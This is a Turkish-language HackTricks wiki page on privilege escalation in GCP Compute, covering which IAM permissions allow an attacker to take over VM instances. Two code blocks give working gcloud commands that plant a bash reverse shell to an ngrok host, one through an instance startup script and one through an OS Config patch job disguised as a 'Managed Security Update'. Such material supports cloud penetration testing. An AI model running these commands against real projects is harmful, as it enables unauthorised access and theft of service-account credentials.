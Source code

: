 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

GCP'deki Compute ve VPC (ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Önemli: Örneğin metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için (yeni kullanıcılar ve SSH anahtarları eklemek gibi) **örneğe bağlı SA üzerinde `actAs` izinlerinizin olması GEREKİR**, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle **bir örneğin** **metadata** bilgilerini **değiştirebilir** ve **bir kullanıcının yetkilendirilmiş anahtarlarını** değiştirebilir veya **sudo** izinlerine sahip **yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH ile bağlanabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* GCP Hizmet Hesaplarının VM örneklerinde varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın.
* Giriş yapmak için **SSH** sunucusuyla **iletişim kurabilmeniz** gerekecek.

Bu izni nasıl istismar edeceğiniz hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki iznin sağladığı aynı ayrıcalıkları** belirli bir örnek üzerinde verir, tüm proje yerine. **Önceki bölümdeki aynı istismarlar ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenizi** ve bunları kötüye kullanarak ayrıcalıkları artırmanızı sağlar.

### **`compute.instances.osLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**Atanmış bir Hizmet Hesabı ile sanal bir makine oluşturmak ve ayrıcalıkları artırmak için hizmet hesabının token'ını çalmak** mümkündür.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa, bir [**yamanın işi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanlamasına hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme elde etmenizi sağlar.

Şu anda, örneğe bağlı SA üzerinde **`actAs` iznine** ihtiyacınız olmadığını unutmayın.

Bunu manuel olarak istismar etmek istiyorsanız, ya bir [**yamanın işi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ya da** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** oluşturmanız gerekecek.**\
Bir yamanın işi için çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yamanın dağıtımını yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) geçmişte bu yanlış yapılandırmayı istismar etmek için kullanılabiliyordu (ama şimdi çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ek izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ek izinler verin** bir disk anlık görüntüsü için.

### `compute.disks.setIamPolicy`

**Kendinize ek izinler verin** bir disk için.

### Erişim Kapsamlarını Aşma

Bu bağlantıyı takip ederek bazı [**erişim kapsamlarını aşma fikirleri**](../) bulabilirsiniz.

### GCP Compute örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
